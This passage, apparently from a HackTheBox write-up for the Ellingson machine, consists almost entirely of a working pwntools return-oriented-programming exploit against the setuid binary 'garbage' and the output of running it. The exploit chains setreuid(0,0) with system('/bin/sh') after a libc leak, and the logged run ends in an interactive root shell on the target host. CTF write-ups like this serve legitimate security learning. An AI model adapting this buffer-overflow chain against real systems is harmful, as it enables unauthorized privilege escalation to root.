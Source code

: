 ```
    binsh = libc_offset + libc_binsh
    setreuid = libc_offset + libc_setreuid
    payload = 'A'*offset
    payload += p64(ret)
    payload += p64(pop_rdi) 
    payload += p64(0)
    payload += p64(pop_rsi)
    payload += p64(0)
    payload += p64(0)
    payload += p64(setreuid)
    payload += p64(pop_rdi) 
    payload += p64(binsh) 
    payload += p64(sys)


    #io.recvuntil("password:")
    io.sendline(payload)
    io.recvuntil("denied.")
    io.interactive()
```

I had to make some changes with regards to the above `Writeup`, as this one also involved calling the `setreuid` function with the id `0` to get root access. 

On using the exploit

```
[*] '/home/vipul/Desktop/HackTheBox/Machines/Ellingson_SOLVED/garbage'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/vipul/Desktop/HackTheBox/Machines/Ellingson_SOLVED/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] OFFSET : 136
[*] PLT@PUTS : 0x401050
[*] PUT@GOTS : 0x404028
[*] MAIN : 0x401619
[*] Loaded cached gadgets for 'garbage'
[*] POP RDI : 0x40179b
[*] RET : 0x401016
[*] POP RSI, POP 15 : 0x401799
[+] Connecting to 10.10.10.139 on port 22: Done
[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Starting remote process '/usr/bin/garbage' on 10.10.10.139: pid 2967
[*] PUTS LEAK : �\xb1A%\x7f\x00\x00
[*] LIBC PUTS : 0x809c0
[*] LIBC SYSTEM : 0x4f440
[*] LIBC /bin/sh : 0x1b3e9a
[*] LIBC setreuid : 0x116ac0
[*] LIBC OFFSET : 0x7f2541a91000
[*] Switching to interactive mode

# $ whoami
```